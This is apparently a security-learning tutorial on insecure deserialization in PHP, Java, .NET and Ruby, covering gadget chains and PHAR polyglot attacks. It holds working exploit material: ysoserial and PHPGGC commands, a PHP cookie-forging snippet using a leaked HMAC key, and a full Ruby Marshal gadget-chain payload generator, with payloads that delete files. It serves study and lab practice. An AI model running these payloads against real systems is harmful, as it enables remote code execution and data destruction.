

# Insecure Deserialization

### Serialization&#x20;

>
>
> **Serialization** is the process by which some <mark style="color:red;">**bit**</mark> if data in programming lan-guage gets converted into a format that allows it to be saved in a DB ir trasferred  over a Network&#x20;

### Deserialization

> is the process of reconstructing data that has been serialized (converted into a specific format, often a sequence of bytes) back into its original form, such as objects or data structures. It involves taking serialized data and converting it back into an object or data structure that can be used in the program. Deserialization is crucial for retrieving stored or transmitted data and restoring it to its original state, allowing applications to work with the data as it was originally structured before serialization.

### Risks of Insecure Deserialization

Insecure deserialization can lead to significant risks:

* **Remote Code Execution (RCE):** Attackers can execute arbitrary code on the server, compromising its integrity.
* **Data Tampering:** Serialized data can be manipulated to alter application logic or compromise data integrity.
* **Authentication Bypass:** Allows attackers to bypass authentication mechanisms by tampering with session or credential data.
* **Denial of Service (DoS):** Exploits can cause crashes or performance issues, disrupting service availability.
* **Privilege Escalation:** Malicious objects may escalate privileges or gain unauthorized access.
* **Financial Loss and Reputation Damage:** Resulting from breaches and loss of customer trust.

## Serialization In Programming Language

### PHP Serialization&#x20;

When an application needs to store or transfer a PHP object over the network, it calls the PHP function <mark style="color:red;">**serialize()**</mark> to pack it up. when the application needs to use that data, it calls <mark style="color:red;">**unserialize( )**</mark> unpack and get the underlying object&#x20;

```php
<?php 
class User{
    public $username;
    public $status;
}
$user = new User;
$user->username = "test";
$user->status = "not admin";
echo serialize($user);
?>
//O:4:"User":2:{s:8:"username";s:4:"test";s:6:"status";s:9:"not admin";}
```

<figure><figcaption><p>serialize() data</p></figcaption></figure>

example how to add serialize in cookie

```php
<?php
// Step 1: Define the class and create an object
class User {
    public $username;
    public $status;
}

// Step 2: Create a new User object and set its properties
$user = new User;
$user->username = "test";
$user->status = "not admin";

// Step 3: Serialize the object
$serializedData = serialize($user);

// Step 4: Base64 encode the serialized data
$encodedData = base64_encode($serializedData);

// Step 5: Set the cookie (name: user_data, value: base64 encoded serialized data, expires in 1 hour)
setcookie('user_data', $encodedData, time() + 3600, "/");

// Output the encoded data (for testing purposes)
echo "Serialized and encoded cookie value: " . base64_decode($encodedData);
?>
```

<figure><figcaption></figcaption></figure>


b: The\_Boolean;

i: The\_interger;

d: The\_float;

s: Length\_OF\_String:"string";

a: Number\_OF\_Elements:{Elements};

O: Length\_OF\_Name:"Class\_name":{properties}


<pre class="language-php"><code class="lang-php">&#x3C;?php
// Define a sample class
<strong>class User { 
</strong>    public $name;
    public $email;

    public function __construct($name, $email) { //class construct
        $this->name = $name;
        $this->email = $email;
    }
}

// Create an instance of the User class
$user = new User('John Doe', 'john@example.com');

// Serialize the object to a string
$serializedUser = serialize($user);

// Echo the serialized data
echo "Serialized User Data:\n";
echo $serializedUser . "\n";

// Deserialize the string back into an object
$deserializedUser = unserialize($serializedUser);

// Echo the deserialized object's properties
echo "\nDeserialized User Data:\n";
echo "Name: " . $deserializedUser->name . "\n";
echo "Email: " . $deserializedUser->email . "\n";
?>
</code></pre>

The PHP code defines a <mark style="color:red;">**User**</mark> class with <mark style="color:red;">**name**</mark> and <mark style="color:red;">**email**</mark> properties. It demonstrates serialization by converting an instance of <mark style="color:red;">**User**</mark> into a string using <mark style="color:red;">**serialize()**</mark>, then deserializes it back into an object using <mark style="color:red;">**unserialize()**</mark>, displaying the reconstructed user's data.

<figure><figcaption></figcaption></figure>

#### PHP Magic Methods

PHP provides several magic methods that are crucial for customizing the serialization and deserialization processes:

* <mark style="color:red;">**`__sleep()`**</mark>: This method is invoked before serialization. It allows you to perform cleanup tasks, such as closing database connections and should return an array of property names that should be serialized.
* <mark style="color:red;">**`__wakeup()`**</mark>: This method is called deserialization. It is used to reinitialize any resources or connections that were serialized along with the object, ensuring it operates correctly after deserialization.
* <mark style="color:red;">**`__serialize()`**</mark>: Introduced in PHP 7.4, this method allows you to customize the serialization data by returning an array representing the object's serialized form. It provides fine-grained control over what data gets serialized.
* <mark style="color:red;">**`__unserialize()`**</mark>: This method is the counterpart to <mark style="color:red;">**`__serialize()`**</mark>. It allows you to customize the restoration of an object from its serialized data. This can include initializing properties or performing any necessary post-processing tasks.
* <mark style="color:red;">**`__destruct()`**</mark> : method in PHP is a magic method that is automatically called when an object is no longer referenced or its script ends. It's used for cleanup tasks, such as closing files or database connections, releasing resources, or performing other actions that should be done when the object is no longer needed.

### Java Serialization

Serialization in Java converts an object into a sequence of bytes, which can be easily stored or transmitted. It allows objects to be saved to files or sent over networks. By implementing the <mark style="color:red;">**Serializable**</mark> interface and using <mark style="color:red;">**ObjectOutputStream**</mark>, Java can serialize an object's state, which can later be deserialized back into its original form using <mark style="color:red;">**ObjectInputStream**</mark>.

```java
import java.io.*;

// Example class to serialize and deserialize
class MyClass implements Serializable {
    private String name;
    private int age;

    // Constructor
    public MyClass(String name, int age) {
        this.name = name;
        this.age = age;
    }

    // Getter methods
    public String getName() {
        return name;
    }

    public int getAge() {
        return age;
    }

    public static void main(String[] args) {
        // Create an object of MyClass
        MyClass obj = new MyClass("John Doe", 30);

        // Serialization
        try {
            // Serialize the object
            FileOutputStream fileOut = new FileOutputStream("serialized_object.ser");
            ObjectOutputStream out = new ObjectOutputStream(fileOut);
            out.writeObject(obj);
            out.close();
            fileOut.close();
            System.out.println("Object serialized and saved as 'serialized_object.ser'");
        } catch (IOException e) {
            e.printStackTrace();
        }

        // Deserialization
        try {
            // Deserialize the object
            FileInputStream fileIn = new FileInputStream("serialized_object.ser");
            ObjectInputStream in = new ObjectInputStream(fileIn);
            MyClass deserializedObj = (MyClass) in.readObject();
            in.close();
            fileIn.close();

            // Print deserialized object
            System.out.println("\\nDeserialized Object:");
            System.out.println("Name: " + deserializedObj.getName());
            System.out.println("Age: " + deserializedObj.getAge());
        } catch (IOException | ClassNotFoundException e) {
            e.printStackTrace();
        }
    }
}
```

**Explanation:**

* **MyClass Definition:** Defines a simple <mark style="color:red;">**`MyClass`**</mark> that implements <mark style="color:red;">**`Serializable`**</mark> interface with `name` and `age` attributes.
* **Serialization (main method):**
  * Creates an instance <mark style="color:red;">**`obj`**</mark> of <mark style="color:red;">**`MyClass`**</mark>.
  * Uses <mark style="color:red;">**`ObjectOutputStream`**</mark> to serialize `obj` and write it to <mark style="color:red;">**`serialized_object.ser`**</mark>.
* **Deserialization (main method):**
  * Reads the serialized object from <mark style="color:red;">**`serialized_object.ser`**</mark> using <mark style="color:red;">**`ObjectInputStream`**</mark>.
  * Casts the read object to <mark style="color:red;">**`MyClass`**</mark><mark style="color:red;">** **</mark><mark style="color:red;">**(**</mark><mark style="color:red;">**`(MyClass) in.readObject()`**</mark><mark style="color:red;">**)**</mark> for type safety.
  * Prints the deserialized object's attributes (<mark style="color:red;">**`name`**</mark> and <mark style="color:red;">**`age`**</mark>) to verify successful deserialization.
* **Output:**
  * The program outputs messages indicating the serialization and deserialization operations.
  * After deserialization, it prints the attributes of the deserialized object (<mark style="color:red;">**`Name`**</mark> and <mark style="color:red;">**`Age`**</mark>).

This example demonstrates the complete process of serializing (<mark style="color:red;">**`ObjectOutputStream`**</mark>) and deserializing (<mark style="color:red;">**`ObjectInputStream`**</mark>) a Java object using Java's built-in serialization mechanism.


We will create Tow Files:&#x20;

**item.java** -> hold code for a class name

**Serialize.java** -> which will contain the serialization logic


```java
import java.io.*;
public class item implements Serializable {
    int id;
    String name;
    public item(int id,String name){
        this.id = id;
        this.name = name;
    }
}
```


**Item.java is a simple class that  has two fields: **<mark style="color:red;">**id**</mark>** and **<mark style="color:red;">**name**</mark>

Now, we will use another file (in Java one class should be contained in one file)


```java
import java.io.*;
class serialize{
 public static void main(String[] argv){
  try{
    //creating the object
    item s1 = new item(123,"book");
    //Creating stream and writing the object
    FileOutputStream fout = new FileOutputStream("data.ser");
    ObjectOutputStream out = new ObjectOutputStream(fout);
    out.writeObject(s1);
    out.flush();
    //closing the stream 
    out.close();
    System.out.println("Serialized data saved to data.ser");
  }catch (Exception e){System.out.println(e);}
 }
}
```


<figure><figcaption></figcaption></figure>

Using Some commands in Linux such as **Strings or haxdump**

&#x20;

<figure><figcaption></figcaption></figure>

the application  For Java serialized Objects, you should also look for base64 strings starting with <mark style="color:red;">**`rO0AB`**</mark>

```bash
echo -en "\xac\xed\x00\x05" | base64

#output
rO0ABQ==
```

deserializtion

```java
import java.io.*;
class deserialize{
 public static void main(String[] argv){
  try{
    //Creating stream and writing the object
    ObjectInputStream in = new ObjectInputStream(new FileInputStream("data.ser"));
    item s = (item) in.readObject();
    System.out.println(s.id+" "+s.name);
    //closing the stream 
    in.close();
  }catch (Exception e){System.out.println(e);}
 }
}
```


<figure><figcaption></figcaption></figure>

insecure deserialization Conditions

Executing OS commands in Java could be done

Example:

```java
java.lang.Runtime.getRuntime.exec("whoami")
```

Ysoserial



Requerd:

* java 8
* **`update-alternatives --config java`** -> switch version

```bash
java -jar ysoserial-all.jar CommonsCollections1  "whomai" | base64 
```

<figure><figcaption></figcaption></figure>

## .NET Serialization

Saving the states of objects  using serialization in .NET can be done using various methods \
Example:

* BinaryFormatter
* DataContractSerializer
* NetDataContractSerializer
* XML Serialization

In .NET, there are several serialization techniques available, including **binary serialization**, **XML serialization**, **JSON serialization**, and **custom serialization**.

to make demo&#x20;

requred:

windows

in search Turn window featuers on or off

### &#x20;**Binary Serialization**

**How to Do Binary Serialization:**

1. **Mark the class as serializable** by adding the `[`<mark style="color:red;">**`Serializable`**</mark>`]` attribute.
2. **Use the **<mark style="color:red;">**`BinaryFormatter`**</mark> class to perform serialization and deserialization.

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

[Serializable]
public class MyClass
{
    public int Id { get; set; }
    public string Name { get; set; }
}

class Program
{
    static void Main()
    {
        MyClass obj = new MyClass { Id = 1, Name = "Example" };

        // Serialize
        FileStream fileStream = new FileStream("data.bin", FileMode.Create);
        BinaryFormatter formatter = new BinaryFormatter();
        formatter.Serialize(fileStream, obj);
        fileStream.Close();

        // Deserialize
        fileStream = new FileStream("data.bin", FileMode.Open);
        MyClass deserializedObj = (MyClass)formatter.Deserialize(fileStream);
        fileStream.Close();

        Console.WriteLine($"Id: {deserializedObj.Id}, Name: {deserializedObj.Name}");
    }
}
```

### **XML Serialization**

XML serialization converts an object into XML format. It is useful for interoperability between different platforms and languages

```csharp
using System;
using System.IO;
using System.Xml.Serialization;

public class MyClass
{
    public int Id { get; set; }
    public string Name { get; set; }
}

class Program
{
    static void Main()
    {
        MyClass obj = new MyClass { Id = 1, Name = "Example" };

        // Serialize
        XmlSerializer xmlSerializer = new XmlSerializer(typeof(MyClass));
        using (StreamWriter writer = new StreamWriter("data.xml"))
        {
            xmlSerializer.Serialize(writer, obj);
        }

        // Deserialize
        using (StreamReader reader = new StreamReader("data.xml"))
        {
            MyClass deserializedObj = (MyClass)xmlSerializer.Deserialize(reader);
            Console.WriteLine($"Id: {deserializedObj.Id}, Name: {deserializedObj.Name}");
        }
    }
}
```

### **JSON Serialization**

JSON serialization converts an object into JSON format, which is both human-readable and efficient for web-based applications. The [<mark style="color:red;">**`System.Text.Json`**</mark> ](#user-content-fn-1)[^1]namespace is commonly used for JSON serialization in .NET Core and .NET 5/6+.

```csharp
using System;
using System.Text.Json;
using System.IO;

public class Person
{
    public string Name { get; set; }
    public int Age { get; set; }
}

class Program
{
    static void Main(string[] args)
    {
        Person person = new Person { Name = "John Doe", Age = 30 };
        
        // JSON serialization
        string jsonString = JsonSerializer.Serialize(person);
        File.WriteAllText("person.json", jsonString);
        
        // JSON deserialization
        string readJson = File.ReadAllText("person.json");
        Person deserializedPerson = JsonSerializer.Deserialize<Person>(readJson);
        
        Console.WriteLine($"Name: {deserializedPerson.Name}, Age: {deserializedPerson.Age}");
    }
}

```

### Custom Serialization (Using <mark style="color:red;">**`ISerializable`**</mark>)

By implementing the interface, custom serialization allows you to control how the object is serialized and deserialized. This method is used when you need to serialize non-serializable objects or need fine control over the process.

**Example:**

```csharp
using System;
using System.Runtime.Serialization;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

[Serializable]
public class Person : ISerializable
{
    public string Name { get; set; }
    public int Age { get; set; }

    // Default constructor is required for deserialization
    public Person() {}

    public Person(string name, int age)
    {
        Name = name;
        Age = age;
    }

    // Custom serialization
    public void GetObjectData(SerializationInfo info, StreamingContext context)
    {
        info.AddValue("PersonName", Name);
        info.AddValue("PersonAge", Age);
    }

    // Custom deserialization
    protected Person(SerializationInfo info, StreamingContext context)
    {
        Name = info.GetString("PersonName");
        Age = info.GetInt32("PersonAge");
    }
}

class Program
{
    static void Main(string[] args)
    {
        Person person = new Person("John Doe", 30);
        
        // Custom binary serialization
        BinaryFormatter formatter = new BinaryFormatter();
        using (FileStream fs = new FileStream("person_custom.dat", FileMode.Create))
        {
            formatter.Serialize(fs, person);
        }
        
        // Custom binary deserialization
        using (FileStream fs = new FileStream("person_custom.dat", FileMode.Open))
        {
            Person deserializedPerson = (Person)formatter.Deserialize(fs);
            Console.WriteLine($"Name: {deserializedPerson.Name}, Age: {deserializedPerson.Age}");
        }
    }
}

```

### Gadget chains <a href="#gadget-chains" id="gadget-chains"></a>

Gadget chains involve leveraging pre-existing code snippets, or "gadgets," in an application to achieve exploitation during deserialization. By chaining these gadgets, an attacker can indirectly manipulate serialized data to invoke dangerous code paths.

#### Example of Gadget Chains

PHP Example;

imagine an attacker exploits  a gadget chain  in PHP, starting with a magic method like <mark style="color:red;">**`__wekeup()`**</mark>

<pre class="language-php"><code class="lang-php">&#x3C;?
class GedgetA{
    public $next;
    public function __wakeup(){
    
    $this->next->trigger();
    }
}
class GadgetB {
    public $payload;
    public function trigger() {
    eval(this->payload); // Dangerous operation
    }
}
// attacker-crafted serialization-data
$maliciousData = 'O:7:"GadgetA":1:{s:4:"next";O:7:"GadgetB":1:{s:7:"payload";s:12"phpinfo();";}}'

unserialize($maliciousData);

<strong>?>
</strong></code></pre>

**Explanation:**

* **GadgetA**: <mark style="color:red;">**`__wakeup()`**</mark> method calls <mark style="color:red;">**`trigger()`**</mark> on <mark style="color:red;">**`next`**</mark>.
* **GadgetB**: <mark style="color:red;">**`trigger()`**</mark> method executes the payload using <mark style="color:red;">**`eval()`**</mark>.
* **Malicious Data**: The attacker constructs a serialized chain that sets `next` to a `GadgetB` object with a payload, leading to code execution.

Example in Java using ysoseial:

In Java, gadget chains can be constructed using libraries like Apache Commons Collections. The ysoserial tool automates this for known chains.


```sh
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
     --add-opens=java.base/java.net=ALL-UNNAMED \
     --add-opens=java.base/java.util=ALL-UNNAMED \
     -jar Downloads/ysoserial-0.0.6-all.jar CommonsCollections4 'rm /home/carlos/secret.txt'
```


PHP Example Using PHPGGC:

```bash
phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w0
```

<figure><figcaption></figcaption></figure>

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

#### Working with Pre-built Gadget Chains

* **Tools**: Use tools like <mark style="color:red;">**`ysoserial`**</mark> for Java or <mark style="color:red;">**`PHPGGC`**</mark> for **PHP** to generate serialized objects that exploit known gadget chains.
* **Universal Chains**: Use universal chains like <mark style="color:red;">**`URLDNS`**</mark> in Java for detection, triggering DNS lookups to confirm deserialization.
* **Documentation**: Look for documented exploits or pre-built chains online if a dedicated tool is unavailable.

**Detecting Gadget Chains**:

* **Universal Chains**: Tools like <mark style="color:red;">**`URLDNS`**</mark> and <mark style="color:red;">**`JRMPClient`**</mark> can help detect deserialization by causing detectable side effects like DNS lookups or TCP connections.
* **Source Code Review**: Manual inspection of available classes and their methods can reveal potential gadgets, especially focusing on magic methods like <mark style="color:red;">**`__wakeup()`**</mark> or <mark style="color:red;">**`readObject()`**</mark>.

**Custom Gadget Chains**:

* **Manual Construction**: If no pre-built chain is available, analyze the application’s classes and methods to create a custom chain based on identified gadgets.


Using gadget chains, attackers manipulate serialized objects to pass data through a series of pre-existing methods, leading to dangerous operations. This often involves starting the chain with a magic method and using intermediate gadgets to funnel data into a "sink gadget" where the attack is realized.


### ruby Serialization

Usage of _Marshal.dump_ and _Marshal.load_

```ruby
 irb
class Person
 attr_accessor :name
 end
 nil

 p = Person.new
 #<Person:0x00005584ba9af490>

 p.name = "Luke Jahnke"
 "Luke Jahnke"

 p
 #<Person:0x00005584ba9af490 @name="Luke Jahnke">

 Marshal.dump(p)
 "\x04\bo:\vPerson\x06:\n@nameI\"\x10Luke Jahnke\x06:\x06ET"
 Marshal.load("\x04\bo:\vPerson\x06:\n@nameI\"\x10Luke Jahnke\x06:\x06ET")
```

#### Marshal.load

Script to generate and verify the deserialization gadget chain against Ruby 2.0 through to 2.5


```bash
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["session-here"].pack("H*")) rescue nil'; done
```


## Universal Deserialisation Gadget for Ruby 2.x-3.x



```ruby
require 'base64' # to encode output 
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload) 
```

<figure><figcaption></figcaption></figure>

### Create Your Own Gadget Chain Exploit

1. **Source Code Access**: Obtain access to the application's source code. This is crucial for identifying classes that contain magic methods invoked during deserialization.
2. **Identify Magic Methods**: Search for classes with magic methods (<mark style="color:red;">**`__wakeup()`**</mark>, <mark style="color:red;">**`__destruct()`**</mark>, etc.) that are automatically invoked during deserialization. These methods are potential entry points for your exploit.
3. **Assess Magic Method Code**: Analyze the code within these magic methods. Determine if they directly dangerously manipulate user-controllable attributes. Even if they don't appear exploitable alone, they can serve as a starting point (kick-off gadget) for your gadget chain.
4. **Follow Method Invocations**: Study any methods invoked by the kick-off gadget. Look for methods that process or interact with user-controlled data. Each method invocation chain may lead you closer to a dangerous sink gadget where you can manipulate the data flow to achieve your exploit.
5. **Track Data Access**: Keep track of which attributes and values you have access to as you follow the method invocations. This helps in crafting the serialized object payload later.
6. **Identify Sink Gadgets**: A sink gadget is where your controlled data can cause significant harm. It could be a method that executes system commands, accesses sensitive files, or performs other risky operations based on its input.
7. **Constructing the Payload**: Once you've mapped out the gadget chain within the application code, create a serialized object containing your malicious payload. This involves crafting a valid serialized object format matching the source code's class declaration.
8. **Serialization Formats**: Depending on the language (e.g., PHP, Java), understand the serialization format you're working with. String-based formats (like PHP's `serialize()` output) is straightforward, but binary formats (like Java's serialized objects) may require deeper understanding and possibly custom serialization logic.
9. **Testing and Refinement**: Test your exploit in a controlled environment to ensure it works as intended. Refine your gadget chain if necessary to optimize its effectiveness or to evade detection.
10. **Secondary Vulnerabilities**: Look for opportunities to exploit secondary vulnerabilities or weaknesses in the application's security posture as you construct your gadget chain. This could amplify the impact of your exploit.

### **PHAR Deserialization Attacks**

PHAR (PHP Archive) files can be exploited for deserialization vulnerabilities in PHP, even without direct use of the unserialize() method. Here’s a detailed breakdown of how this exploitation works:

1. **phar:// Stream Wrapper**: PHP supports various URL-style wrappers for accessing different protocols via file paths. The <mark style="color:red;">**`phar://`**</mark> wrapper specifically provides a stream interface for interacting with PHP Archive files (.phar).
2. **Serialized Metadata**: PHAR files contain serialized metadata in their manifest files. When you perform any filesystem operation on a `phar://` stream, PHP implicitly deserializes this metadata.
3. **Exploitation Vector**: By manipulating a <mark style="color:red;">**`phar://`**</mark> stream and passing it into a filesystem method, you can potentially trigger insecure deserialization. Methods like `file_exists()` are less obviously dangerous compared to methods like <mark style="color:red;">**`include()`**</mark> or <mark style="color:red;">**`fopen()`**</mark>, and may not have adequate protections.
4. **Upload and Execution**: To execute this attack, you need to upload the PHAR file to the server. This can sometimes be achieved by disguising the PHAR file as another file type, such as a JPEG (polyglot file). PHP's stream handling does not check file extensions strictly, allowing the PHAR to be treated as an image file, bypassing validation checks.
5. **Deserialization Trigger**: Once the PHAR file is accessed via a `phar://` stream, PHP deserializes its metadata. If the object's class is supported by the website, this can trigger the execution of `__wakeup()` or `__destruct()` magic methods defined in the class.
6. **Magic Methods**: Both `__wakeup()` and <mark style="color:red;">**`__destruct()`**</mark> methods can be used as a starting point to initiate a gadget chain. These methods allow you to control the behaviour of the deserialization process, potentially leading to the execution of arbitrary code or further exploitation.

#### Example Scenario

Imagine a scenario where a website allows users to upload profile pictures. An attacker uploads a polyglot file that appears to be a harmless JPEG but is actually a PHAR file. When the website accesses this file using a `phar://` stream for display or processing, PHP deserializes its metadata. If the attacker has crafted the PHAR to include malicious code in its `__destruct()` method, this code could execute, leading to unauthorized actions on the server.

PHAR deserialization thus presents a stealthy and potentially dangerous avenue for exploiting insecure deserialization in PHP applications, leveraging PHP's inherent file-handling capabilities and relaxed stream validation.


[^1]: 
